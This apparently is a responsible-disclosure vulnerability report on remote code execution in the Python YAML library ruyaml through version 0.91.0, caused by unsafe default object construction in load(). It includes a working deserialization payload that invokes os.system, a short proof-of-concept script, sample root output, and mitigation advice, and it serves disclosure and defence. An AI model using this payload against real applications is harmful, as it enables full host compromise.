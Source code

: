# Vulnerability Report

## Vulnerability Name
```
Vulnerability Name: ruyaml <= 0.91.0 vulnerable to Remote Code Execution (RCE) via unsafe load() method
```

## Affected URL and Area
```
Affected Package: ruyaml (PyPI)
Affected Module/Function: load()
Affected Version: <= 0.91.0
```

## Vulnerability Description
```
The ruyaml package (a fork of ruamel.yaml) provides YAML parsing for Python. 
Through version 0.91.0, the function `ruyaml.load()` is unsafe when used with untrusted YAML input. 
The default loader allows arbitrary object construction, enabling attackers to inject Python objects 
and execute system commands.

During testing, providing a specially crafted YAML payload such as 
`!!python/object/apply:os.system ["id"]` resulted in the execution of operating system commands. 
This issue arises because `ruyaml.load()` defaults to UnsafeLoader, rather than a SafeLoader 
that restricts arbitrary object instantiation.
```

## Severity and Risk Rating
```
Severity: Critical
Risk Rating: High
```

## CVE, CWE, CVSS Score and Vulnerability Class
```
CVE: Not yet assigned (related: CVE-2019-20478 in ruamel.yaml, CVE-2017-18342 in PyYAML)
CWE-ID: CWE-94 (Improper Control of Generation of Code - Code Injection)
CVSS Score: 9.8 CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
Vulnerability Class: Unsafe Deserialization / Remote Code Execution
```

## Impact of Vulnerability
```
If an application uses `ruyaml.load()` with user-supplied or untrusted YAML input, 
an attacker can execute arbitrary operating system commands. This may lead to:

- Full compromise of the application host
- Unauthorized access to sensitive data
- Disruption of services (DoS)
- Potential lateral movement within the environment

The severity of this vulnerability is critical, since it enables remote, 
unauthenticated attackers to achieve RCE with minimal effort.
```

## Steps to Reproduce
```
Steps to reproduce:

1. Install ruyaml in a Python environment:
   pip install ruyaml==0.91.0

2. Create a PoC script (poc.py) with the following code:
   import ruyaml
   payload = """!!python/object/apply:os.system [\"id\"]"""
   data = ruyaml.load(payload)
   print(data)

3. Run the script:
   python3 poc.py

4. Observe that the system command `id` is executed on the host, 
   demonstrating Remote Code Execution.
```

## Proof of Concept (PoC)
PoC Script:  [View poc.py](https://github.com/Whyshealwaysbrokeme/vuln-ruyaml-0.91.0-rce/blob/main/report/poc.py)

PoC Screenshot:  
![PoC Screenshot](https://github.com/Whyshealwaysbrokeme/vuln-ruyaml-0.91.0-rce/blob/main/report/poc.png)

Execution Output:  
![Execution Output](https://github.com/Whyshealwaysbrokeme/vuln-ruyaml-0.91.0-rce/blob/main/report/output.png)

PoC Payload:
```
!!python/object/apply:os.system ["id"]
```

Execution Result (example):
```
uid=0(root) gid=0(root) groups=0(root)
```

## Mitigation/Remediation
```
Mitigation Steps:

1. Avoid using `ruyaml.load()` with untrusted input.
2. Replace with `ruyaml.safe_load()` which restricts unsafe object construction.
3. If complex object support is required, explicitly specify a safe Loader, e.g.:
   ruyaml.load(data, Loader=ruyaml.SafeLoader)
4. Apply input validation before processing user-supplied YAML.
5. Follow security advisories and update to future patched versions of ruyaml.
```

## References
```
- CVE-2019-20478 (ruamel.yaml)
- CVE-2017-18342 (PyYAML)
- CWE-94: Improper Control of Generation of Code ('Code Injection')
- https://nvd.nist.gov/vuln/detail/CVE-2019-20478
- https://cwe.mitre.org/data/definitions/94.html
```

## Disclosure
```
Disclosure Date: 24 August 2025
Reporter: Manopakorn Kooharueangrong (Whyshealwaysbrokeme)
Status: Under Responsible Disclosure
```
